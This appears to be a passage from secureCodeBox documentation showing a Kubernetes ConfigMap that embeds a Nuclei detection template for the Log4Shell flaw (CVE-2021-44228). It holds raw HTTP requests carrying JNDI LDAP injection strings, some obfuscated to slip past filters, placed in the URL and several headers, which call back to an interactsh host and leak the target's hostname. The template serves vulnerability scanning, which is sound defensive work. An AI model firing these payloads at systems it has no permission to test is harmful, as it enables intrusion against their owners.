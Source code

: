 ```yaml
kind: ConfigMap
metadata:
  name: nuclei-template-log4j
data:
  log4j-template.yaml: |
 
    id: CVE-2021-44228
 
    info:
      name: Remote code injection in Log4j
      author: melbadry9,dhiyaneshDK,daffainfo,J12934
      severity: critical
      description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
      reference:
        - https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
        - https://www.lunasec.io/docs/blog/log4j-zero-day/
        - https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
      tags: cve,cve2021,rce,oast,log4j
 
    requests:
      - raw:
          - |
            GET /?x=${jndi:ldap://${hostName}.{{interactsh-url}}/a} HTTP/1.1
            Host: {{Hostname}}
            User-Agent: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.{{interactsh-url}}}
            Referer: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
            X-Forwarded-For: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
            Authentication: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
          - |
            GET / HTTP/1.1
            Host: {{Hostname}}
            X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.{{interactsh-url}}}
 
        matchers-condition: and
        matchers:
          - type: word
            part: interactsh_protocol  # Confirms the DNS Interaction
            words:
              - "dns"
 
          - type: regex
            part: interactsh_request
            regex:
              - '([a-z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+' # Match for extracted ${hostName} variable
 
        extractors:
          - type: regex
            part: interactsh_request
            group: 1
            regex:
              - '([a-z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'   # Print extracted ${hostName} in output
```


[scb-repo]: https://github.com/secureCodeBox/secureCodeBox/